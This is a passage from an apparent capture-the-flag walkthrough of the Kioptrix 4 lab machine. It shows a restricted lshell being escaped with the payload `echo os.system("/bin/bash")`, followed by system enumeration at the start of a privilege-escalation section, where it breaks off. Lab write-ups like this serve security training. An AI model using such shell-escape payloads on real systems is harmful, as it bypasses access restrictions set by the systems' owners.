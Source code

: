 ```bash
*** forbidden path -> "/home/"
*** You have 0 warning(s) left, before getting kicked out.
This incident has been reported.
john:~$ pwd
*** unknown command: pwd
john:~$ whoami
*** unknown command: whoami
john:~$ 
```

But it appears that we are in a limited shell as many of the usual command are not working here. Also, at the beginning it says that we check the allowed commands by entering `?` or `help`.

```bash
john:~$ help
cd  clear  echo  exit  help  ll  lpath  ls
```

It is clear that we are allowed to execute a limited set of commands.

From the above output, it is also clear that we are only allowed to run these limited commands in the current directory only and accessing any other directory is forbidden.

After trying multiple command combination, when we enter `help help` we get the following output

```bash
john:~$ help help
Limited Shell (lshell) limited help.
Cheers.
```

We can search on Google to look for methods to escape `lshell` and one such article is [this](https://www.aldeid.com/wiki/Lshell). In the article it has been mentioned that this shell can be escaped using `echo` as

```bash
john:~$ echo os.system("/bin/bash")                                                                                 
john@Kioptrix4:~$ id
uid=1001(john) gid=1001(john) groups=1001(john)
john@Kioptrix4:~$ whoami
john
john@Kioptrix4:~$ pwd
/home/john
```

## Privilege Escalation

To get an idea of the system, we can run basic commands like

```bash
john@Kioptrix4:~$ pwd
/home/john
john@Kioptrix4:~$ hostname 
Kioptrix4
john@Kioptrix4:~$ uname -a
Linux Kioptrix4 2.6.24-24-server #1 SMP Tue Jul 7 20:21:17 UTC 2009 i686 GNU/Linux
john@Kioptrix4:~$ cat /proc/version
Linux version 2.6.24-24-server (buildd@palmer) (gcc version 4.2.4 (Ubuntu 4.2.4-1ubuntu4)) #1 SMP Tue Jul 7 20:21:17 UTC 2009
john@Kioptrix4:~$ cat /etc/*-release
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=8.04
DISTRIB_CODENAME=hardy
DISTRIB_DESCRIPTION="Ubuntu 8.04.3 LTS"
```
